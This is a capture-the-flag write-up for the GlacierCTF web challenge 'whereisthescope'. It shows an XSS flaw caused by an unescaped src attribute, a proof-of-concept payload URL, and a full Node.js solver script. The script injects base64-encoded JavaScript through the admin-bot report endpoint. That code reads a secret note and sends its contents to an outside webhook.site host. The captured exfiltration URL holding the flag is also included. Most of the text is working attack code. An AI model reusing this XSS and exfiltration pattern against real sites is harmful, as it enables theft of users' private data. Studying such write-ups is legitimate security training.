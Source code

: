 Due to `src="${parseURI(uri)}"` in the client code, a XSS vulnerability exists.

Successful XSS Payload:

```text
https://whereisthescope.web.glacierctf.com/?uri=https://www.youtube.com/%22%20onload=%22alert(1)
```

![detect_xss.png](img/detect_xss.png)

### Exploit

```javascript
// solver.js
const axios = require("axios");
const OTPAuth = require("otpauth");

(async () => {
  try {
    // get URI to generate token
    const response = await axios.post(
      "https://whereisthescope.web.glacierctf.com/setup_2fa"
    );
    const token = OTPAuth.URI.parse(response.data.totp).generate();
    // console.log(`token: ${token}`);

    const xss_payload = `fetch('/secret_note?token=${token}').then(resp => resp.text()).then(text => { new Image().src = "https://webhook.site/<yourwebhook>/?data=" + btoa(text); })`;

    const data = {
      path: `?uri=https://www.youtube.com/%22%20onload=%22eval(atob(%27${btoa(
        xss_payload
      )}%27))`,
    };
    // console.log(data);
    await axios.post("https://whereisthescope.web.glacierctf.com/report", data);
  } catch (error) {
    console.log(error);
  }
})();

```

Execute this solver.js and check webhook request, found <https://webhook.site/d4b16d75-3e17-4688-9337-2e09a2aa612e/?data=eyJtZXNzYWdlIjoiZ2N0ZntiM19DYVIzZlVsX1dpVGhfSmF2QVNjUjFwVF9DMG1QMUwzclNfISExfSJ9>.
